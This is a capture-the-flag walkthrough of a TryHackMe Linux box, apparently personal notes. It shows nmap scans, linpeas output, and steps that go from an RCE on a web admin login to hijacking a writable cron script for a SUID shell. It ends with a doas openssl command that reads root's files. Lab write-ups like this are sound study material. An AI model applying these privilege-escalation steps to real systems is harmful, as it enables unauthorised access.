


<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Apache serves the same content on **80 and 445**. On `:445` there is a *Traffic Offense Management System* admin login → RCE.
2. Web shell as `www-data`; `initialize.php` leaks DB creds → dump `users`.
3. linpeas: `plot_admin` runs `/var/www/scripts/backup.sh` from cron; `www-data` can write it → replace it to SUID `bash` → become `plot_admin`.
4. `doas` allows `plot_admin` to run `openssl` as **root** with no password → read `/root/root.txt` (or arbitrary files) via `openssl enc`.

</div>

---

## Full Walkthrough

Nmap scan

```bash
Reason: 997 conn-refused
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50427/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 45991/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 63666/udp): CLEAN (Failed to receive data)
|   Check 4 (port 45111/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

```bash
PORT    STATE SERVICE REASON  VERSION
445/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50427/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 45991/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 63666/udp): CLEAN (Failed to receive data)
|   Check 4 (port 45111/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

got rce from ## Traffic Offense Management System - Admin Login

things found with linpeas

got credentials from initialize.php logged into db

dump users

```bash
╔══════════╣ Container related tools present
/snap/bin/lxc


SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * 	* * *	plot_admin /var/www/scripts/backup.sh

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0      511                     *:80                 *:*            
tcp   LISTEN 0      128                  [::]:22              [::]:*            
tcp   LISTEN 0      511                     *:445                *:*   


╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl


```

The user runs that `backup.sh` file as that user.

as `www-data` we can rename that file and when the cron kicks it we can make another file that spawns a shell or maybe even make  SUID file with that user so we can do `bash -p ` to get into that user.




got user now `root`.



get root flag

```bash
doas -u root openssl enc -in /root/root.txt
```
